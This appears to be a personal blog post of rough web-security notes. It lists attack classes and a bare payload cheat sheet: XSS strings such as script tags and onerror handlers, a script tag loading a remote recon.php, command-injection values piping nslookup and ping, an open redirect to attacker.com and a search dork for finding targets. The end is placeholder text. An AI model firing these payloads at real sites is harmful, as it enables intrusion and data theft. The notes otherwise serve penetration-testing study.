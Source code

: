 ```yaml
---
title: "Web App Security"
date: "2019-10-10"
layout: posts

---
```


Cross-site scripting (XSS)
SQL injection
Cross-site request forgery
XML external entity injection
Directory traversal
Server-side request forgery


XSS
<u>test</u>
<b>lgmstest</b>
<script>alert(1)</script>
</script/x>alert(1)</script/x>
<svg/onload=alert(\"1\")
<a src=www.google.com>test</a>
<h1>t</h1>
<H1>T
>'>"><img src=x onerror=alert(0)>
“><img src=x onerror=prompt(document.domain)>

<script alert(9)</script>.jpeg
<script>alert(1)</script>
</script/x>alert(1)</script/x>
<svg/onload=alert(\"1\")
xss?name=Bob<script src='https://demoapp.loc/js/script?v=1.7.3.css%2522/>%2527)%3Balert(%2522Yeah!%2520Chaining!%2522)%3B//'></script>
?<script src="https://raw.githubusercontent.com/nettitude/xss_payloads/master/recon.php"></script>



Injection
|%7cnslookup%20(collabip)%20%23
%7cping%20-c%2015%20127.0.0.1%20%23

redirect
https://example.com/signup?redirectUrl=https://attacker.com/
inurl:redirectUrl=http site:target.com

test dulu
![source-code](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/finn.jpg){: .align-center}

---

**Solution**


    kk
    ss


`test`



